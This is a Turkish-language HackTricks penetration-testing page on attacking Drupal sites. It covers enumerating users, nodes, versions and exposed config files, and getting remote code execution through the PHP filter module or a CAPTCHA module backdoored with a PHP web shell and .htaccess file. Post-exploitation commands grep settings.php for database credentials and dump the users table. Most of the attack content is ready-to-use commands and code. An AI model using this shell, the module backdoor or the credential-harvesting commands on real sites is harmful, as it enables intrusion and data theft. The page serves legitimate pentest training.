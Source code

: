 # Drupal

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI'na**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Keşif

* **Meta**'yı kontrol edin
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **içeriği düğümler kullanarak dizinler**. Bir düğüm herhangi bir şeyi içerebilir, örneğin bir blog yazısı, anket, makale vb. Sayfa URI'leri genellikle `/node/<düğüm kimliği>` şeklindedir.
```bash
curl drupal-site.com/node/1
```
## Numaralandırma

Drupal varsayılan olarak **üç tür kullanıcıyı** destekler:

1. **`Yönetici`**: Bu kullanıcı Drupal web sitesi üzerinde tam kontrol sahibidir.
2. **`Doğrulanmış Kullanıcı`**: Bu kullanıcılar web sitesine giriş yapabilir ve izinlerine bağlı olarak makale ekleyebilir ve düzenleyebilir.
3. **`Anonim`**: Tüm web sitesi ziyaretçileri anonim olarak belirlenir. Varsayılan olarak, bu kullanıcılara yalnızca gönderileri okuma izni verilir.

### Sürüm

* `/CHANGELOG.txt` dosyasını kontrol edin.
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupal'ın daha yeni kurulumları, varsayılan olarak `CHANGELOG.txt` ve `README.txt` dosyalarına erişimi engeller.
{% endhint %}

### Kullanıcı adı numaralandırma

#### Kayıt

_/user/register_ adresinde sadece bir kullanıcı adı oluşturmayı deneyin ve eğer ad zaten alınmışsa bildirim alırsınız:

![](<../../.gitbook/assets/image (325).png>)

#### Yeni şifre iste

Mevcut bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (900).png>)

Mevcut olmayan bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (304).png>)

### Kullanıcı sayısını al

_/user/\<number>_ adresine erişerek mevcut kullanıcı sayısını görebilirsiniz, bu durumda _/users/3_ adresi bulunamadı hatası döndürür:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Gizli sayfalar

**`/node/$` şeklinde bir sorgulama yapın, burada `$` bir numaradır** (örneğin 1 ile 500 arasında).\
Bu şekilde **gizli sayfalar** (test, dev) bulabilirsiniz ki bunlar arama motorları tarafından referans gösterilmez.

#### Kurulu modüller bilgisi
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Otomatik
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP Filtre Modülü ile

{% hint style="warning" %}
Drupal'ın **(8. sürümden önceki sürümlerinde)** eski versiyonlarında, bir yönetici olarak giriş yaparak **`PHP filtresi` modülünü etkinleştirmek** mümkündü, bu modül "Gömülü PHP kodlarını/snippet'leri değerlendirmeye olanak tanır."
{% endhint %}

**Eklenti php'nin yüklü olması gerekmektedir** (bunu kontrol etmek için _/modules/php_ adresine erişerek kontrol edin ve eğer **403** hatası alırsanız, **mevcut**, eğer **bulunamazsa**, o zaman **php eklentisi yüklü değildir**)

_Modüller_ sekmesine gidin -> (**Kontrol Et**) _PHP Filtresi_ -> _Yapılandırmayı Kaydet_

![](<../../.gitbook/assets/image (247) (1).png>)

Ardından _İçerik Ekle_ seçeneğine tıklayın -> _Temel Sayfa_ veya _Makale_ seçin -> _Gövdede php kabuk kodunu yazın_ -> _Metin formatı_ olarak _PHP kodu_ seçin -> _Önizleme_ seçeneğini seçin

![](<../../.gitbook/assets/image (335).png>)

Son olarak, sadece yeni oluşturulan düğüme erişin:
```bash
curl http://drupal-site.local/node/3
```
### PHP Filtre Modülünü Yükle

**8 ve sonraki sürümlerden itibaren**, [**PHP Filtre**](https://www.drupal.org/project/php/releases/8.x-1.1) **modülü varsayılan olarak yüklenmez**. Bu işlevselliği kullanabilmek için **modülü kendimiz yüklememiz gerekecek**.

1. Modülün en güncel sürümünü Drupal web sitesinden indirin.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. İndirildikten sonra **`Yönetim`** > **`Raporlar`** > **`Kullanılabilir güncellemeler`** bölümüne gidin.
4. **`Göz at`**'e tıklayın, dosyayı indirdiğimiz dizinden seçin ve ardından **`Yükle`**'ye tıklayın.
5. Modül yüklendikten sonra **`İçerik`** üzerine tıklayarak **yeni bir temel sayfa oluşturabiliriz**, Drupal 7 örneğinde yaptığımız gibi. Yine, **`Metin biçimi` açılır menüsünden `PHP kodu`'nu seçtiğinizden emin olun**.

### Arka Kapılı Modül

Bir arka kapılı modül, **mevcut bir modüle bir kabuk ekleyerek oluşturulabilir**. Modüller drupal.org web sitesinde bulunabilir. Örneğin [CAPTCHA](https://www.drupal.org/project/captcha) gibi bir modül seçelim. Aşağı doğru kaydırın ve tar.gz [arşivi](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) için bağlantıyı kopyalayın.

* Arşivi indirin ve içeriğini çıkarın.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* İçeriğiyle birlikte bir **PHP web kabuğu** oluşturun:
```php
<?php
system($_GET["cmd"]);
?>
```
* Sonraki adım olarak, kendimize klasöre erişim sağlamak için bir **`.htaccess`** dosyası oluşturmamız gerekiyor. Bu, Drupal'ın **`/modules`** klasörüne doğrudan erişimi reddettiği için gereklidir.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Yukarıdaki yapılandırma, /modules içinde bir dosya istediğimizde / klasörü için kurallar uygulayacaktır. Bu dosyaları captcha klasörüne kopyalayın ve bir arşiv oluşturun.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Websiteye **yönetici erişimine** sahip olduğumuzu varsayarak, **`Yönet`** üzerine tıklayın ve ardından kenar çubuğunda **`Genişlet`** seçeneğine tıklayın. Daha sonra **`+ Yeni modül yükle`** düğmesine tıklayın ve yükleme sayfasına yönlendirileceksiniz, örneğin `http://drupal-site.local/admin/modules/install` Backdoored Captcha arşivine göz atın ve **`Yükle`**'ye tıklayın.
* Yükleme başarılı olduktan sonra, komutları yürütmek için **`/modules/captcha/shell.php`** sayfasına göz atın.

## Sonrası Sızma

### settings.php Dosyasını Okuyun
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Veritabanından Kullanıcıları Dökün
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referanslar

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>Sıfırdan kahramana kadar AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
